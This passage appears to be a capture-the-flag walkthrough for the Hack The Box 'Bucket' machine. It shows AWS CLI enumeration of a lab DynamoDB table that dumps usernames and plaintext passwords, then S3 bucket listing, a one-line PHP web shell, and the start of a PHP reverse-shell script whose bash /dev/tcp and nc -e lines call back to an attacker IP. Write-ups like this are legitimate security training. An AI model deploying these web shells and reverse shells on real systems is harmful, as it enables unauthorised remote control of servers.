 ```bash
$ aws configure      
AWS Access Key ID [None]: ct
AWS Secret Access Key [None]: secretkey
Default region name [None]: 
Default output format [None]: text
                                                                                                                                          
$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb # read the docs to learn more about enumeration with AWS!
TABLENAMES      users

$ aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb
None    3       3
PASSWORD        Management@#1@#
USERNAME        Mgmt
PASSWORD        Welcome123!
USERNAME        Cloudadm
PASSWORD        n2vM-<_K_Q:.Aa2
USERNAME        Sysadm
```

So we have usernames and associated passwords in the `users` table in DynamoDB.  This is great... But where to use them? To find that out, let's try to find out more about the buckets associated with `bucket.htb` through the AWS CLI (our Lord and Saviour):
```bash
$ aws --endpoint-url http://s3.bucket.htb/ s3 ls
2021-03-06 22:17:03 adserver
```

Well, we knew this one existed, as that's where the source code of `bucket.htb` comes from!  But We can enumerate buckets from the `adserver`.  (The images here we saw previously should appear here, as we have discovered from the page source!)
```bash
$ aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/images/
2021-03-06 22:19:04      37840 bug.jpg
2021-03-06 22:19:04      51485 cloud.png
2021-03-06 22:19:04      16486 malware.png
```

I make a mental note that there are three images (uploaded, possibly, by three different people), and three different password-username combinations from the `users` table...

So, I check the `help` section of AWS CLI, and find that you can actually edit (copy, move, delete) files!  Surely we can do something similar to what we did in Passage and get a reverse shell.  Then we have a foothold!

I use the `shell.php` we made in Passage and see if we get a reverse shell.  This file looks like this:
```bash
$ cat shell.php
<?php system($_REQUEST['cmd']) ?>
```

However, this reverse shell allowed us to access a `cmd` argument.  But when we go to the page, we cannot do so (it just asks us to download the file we uploaded), so we need a more intricate RCE script.  Here's one I found online:
```bash
$ cat rce.php
<?php
echo 'running shell';
$ip='10.10.14.239'; # THIS IS YOUR `tun0` PORT IP
$port='1234';
$reverse_shells = array(
    '/bin/bash -i > /dev/tcp/'.$ip.'/'.$port.' 0<&1 2>&1',
    '0<&196;exec 196<>/dev/tcp/'.$ip.'/'.$port.'; /bin/sh <&196 >&196 2>&196',
    '/usr/bin/nc '.$ip.' '.$port.' -e /bin/bash',
    'nc.exe -nv '.$ip.' '.$port.' -e cmd.exe',
```